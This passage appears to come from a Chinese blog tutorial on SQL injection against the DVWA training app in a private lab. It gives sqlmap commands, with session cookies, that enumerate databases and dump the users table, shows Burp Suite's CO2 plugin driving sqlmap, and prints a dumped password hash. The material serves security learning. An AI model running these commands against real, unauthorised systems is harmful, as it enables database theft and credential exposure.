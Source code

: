![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/0e7024c4d57bde94c82abf678dbd8561.png)
>检查第一次较慢，完成后在执行其他爆破，都会很快。

爆所有数据库信息（--dbs）：
```
python sqlmap.py -u "http://192.168.20.48/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --headers="Cookie: PHPSESSID=k3e212a0a0p2mj5kut2gmjdfo2; XDEBUG_SESSION=15794; ts_uid=8970165994; ad_play_index=25; security=low" --dbs
```
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/3d12a0c8addaa4228a00348ab392bb60.png)

**爆当前数据库信息（ --current-db）：**

```
python sqlmap.py -u "http://192.168.20.48/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --headers="Cookie: PHPSESSID=k3e212a0a0p2mj5kut2gmjdfo2; XDEBUG_SESSION=15794; ts_uid=8970165994; ad_play_index=25; security=low" --current-db
```
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/6838082138fe94d9ba3824a09a955bbf.png)


**指定库名列出所有表（-D 数据库名 --tables）**

```
python sqlmap.py -u "http://192.168.20.48/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --headers="Cookie: PHPSESSID=k3e212a0a0p2mj5kut2gmjdfo2; XDEBUG_SESSION=15794; ts_uid=8970165994; ad_play_index=25; security=low" -D dvwa --tables
```
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/648c29b8886549867217c9a131ebbcad.png)


**指定库名表名列出所有字段（-D 数据库名 -T 表名 --columns）**
```
python sqlmap.py -u "http://192.168.20.48/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --headers="Cookie: PHPSESSID=k3e212a0a0p2mj5kut2gmjdfo2; XDEBUG_SESSION=15794; ts_uid=8970165994; ad_play_index=25; security=low" -D dvwa -T users --columns
```
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/ef137fb87e10a12f35ed9f58ddd80965.png)

**指定库名表名字段dump出指定字段(-D 数据库名 -T 表名 -C 字段，隔开 --dmp)**
```
python sqlmap.py -u "http://192.168.20.48/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --headers="Cookie: PHPSESSID=k3e212a0a0p2mj5kut2gmjdfo2; XDEBUG_SESSION=15794; ts_uid=8970165994; ad_play_index=25; security=low" -D dvwa -T users -C user,password --dump
```
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/745a0063ce6c640bfbbc5ea6c2cc8ec0.png)
##### burpsuite co2
可以使用burpsuite的co2插件结合sqlmap，可以直接抓包后发送自动生成sqlmap脚本，相对于手工来说更方便简洁。
Extender-》Bappstore安装CO2插件
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/5cda1653df2c1e41767ce6daf3f47017.png)
抓包action发送到co2
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/903efe92f7ee9a8c5a9a3045897850d1.png)
第一次进入需要设置下sqlmap的执行脚本的位置，已经python的位置
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/7b92d7bc6c26c4059144373d21800479.png)
配置好后Run按钮就可以执行了，可以根据需要组合条件
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/3edeb44e3f79caf3852d5e14812e3f6d.png)
指定数据库名和表名 dump
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/ad8a74810199a14711e8e444b2179482.png)
比如其中一个gordonb的密码：e99a18c428cb38d5f260853678922e03 
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/10fdad795ebca995e26eb7b79df120a6.png)
#### Medium
看代码